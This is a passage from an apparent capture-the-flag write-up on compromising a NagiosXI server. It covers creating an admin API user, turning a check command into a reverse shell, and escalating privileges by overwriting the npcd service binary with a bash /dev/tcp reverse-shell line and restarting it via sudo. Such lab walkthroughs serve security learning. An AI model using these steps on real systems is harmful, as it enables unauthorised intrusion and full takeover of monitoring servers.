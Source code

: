 Great! But this user does not have high privileges, so we need to add a user with admin access level. I could not find anywhere the full API documentation and had to resort to look at a solution ... (if anyone has the info !). The parameter `auth_level` can be set to `admin` to make it work. After adding user `loki`, we now have full access to the functionalities of NagiosXI dashboard (and the full API now ...).

PS: if you receive no `user_id` in the response (`null`), then your new user will not work. This most likely comes from an error in your request, like an email missing `.<anything>`.

Now under Configure > Core Config Manager > Commands,  edit one of the commands, like `check-host-alive`, to initiate a reverse shell.

<img src="images/reverse_shell.png"  alt="isolated" width="800">

To run the command, go to Monitor > Hosts/Services and under `Check command`, choose your command and `Run check command`.

Finally, we have entered the system !! We can grab the flag under `/home/nagios/user.txt` and move on to privilege escalation.

## Privilege escalation

Running `sudo -l`, we observe a lot of permissions for our user! All `.sh` and `.php` files in these permissions are unfortunately not editable. But the nagios core service `ncpd` is accessible to us! We can find its location at `/usr/local/nagios/bin` and we have the permissions to edit it. Unfortunately, it seems to be used (`Text file busy`) and we therefore need to stop the service. `sudo systemctl npcd stop` does not work, but looking at our other permissions, we can use `manage_services.sh` and run `sudo /usr/local/nagiosxi/scripts/manage_service.sh stop ncpd`. We can then modify this file:
```
echo "#! /bin/bash" > /usr/local/nagios/bin/npcd
echo "bash -c 'bash -i >& /dev/tcp/<your-ip>/<a-port> 0>&1'" >> /usr/local/nagios/bin/npcd
sudo /usr/local/nagiosxi/scripts/manage_service.sh start ncpd
```
